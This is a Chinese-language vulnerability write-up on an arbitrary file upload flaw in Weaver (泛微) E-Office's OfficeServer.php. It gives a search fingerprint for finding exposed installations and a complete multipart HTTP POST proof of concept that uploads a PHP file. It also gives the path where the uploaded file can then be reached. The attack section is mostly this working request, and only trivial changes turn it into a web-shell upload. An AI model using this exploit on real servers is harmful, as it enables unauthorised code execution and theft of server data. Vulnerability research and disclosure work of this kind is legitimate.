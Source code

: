 # 泛微OA E-Office OfficeServer.php 任意文件上传漏洞

## 漏洞描述

泛微OA E-Office OfficeServer.php 存在任意文件上传漏洞，攻击者通过漏洞可以获取到服务器敏感信息

## 漏洞影响

<a-checkbox checked>泛微OA E-Office</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"eoffice10"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1664244931813-962fe535-f9cc-451e-9273-025d29d673df.png)

验证POC

```sql
POST /eoffice10/server/public/iWebOffice2015/OfficeServer.php HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Connection: close
Content-Length: 990
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLpoiBFy4ANA8daew
Origin: null
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FileData";filename="test.php"
Content-Type: application/octet-stream

<?php
phpinfo();
?>

------WebKitFormBoundaryLpoiBFy4ANA8daew
Content-Disposition: form-data;name="FormData"

{'USERNAME':'admin','RECORDID':'undefined','OPTION':'SAVEFILE','FILENAME':'test.php'}
------WebKitFormBoundaryLpoiBFy4ANA8daew--
```

![img](../../../.vuepress/public/img/1664244962450-c8cb2723-109b-4090-95f1-dd250e2719a1.png)

文件上传位置

```sql
/eoffice10/server/public/iWebOffice2015/Document/test.php
```

![img](../../../.vuepress/public/img/1664245227470-24772f48-202e-402f-8e7f-3c63c2f1ed51.png)